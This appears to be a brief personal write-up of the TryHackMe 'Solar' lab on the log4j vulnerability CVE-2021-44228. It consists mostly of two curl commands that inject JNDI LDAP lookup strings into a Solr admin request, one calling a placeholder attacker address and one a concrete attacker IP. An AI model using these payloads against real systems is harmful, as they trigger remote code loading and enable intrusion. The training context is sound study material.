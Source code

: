 [TryHackMe | Solar, exploiting log4j](https://tryhackme.com/room/solar)

**Solar, exploiting log4j**

*Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun.*

![[Pasted image 20230606100110.png]]

`http://10.10.85.5:8983`


```shell-session
curl 'http://10.10.85.5:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'
```

```
curl 'http://10.10.85.5:8983/solr/admin/cores?foo=$\{jndi:ldap://10.17.44.152:9999\}'
```

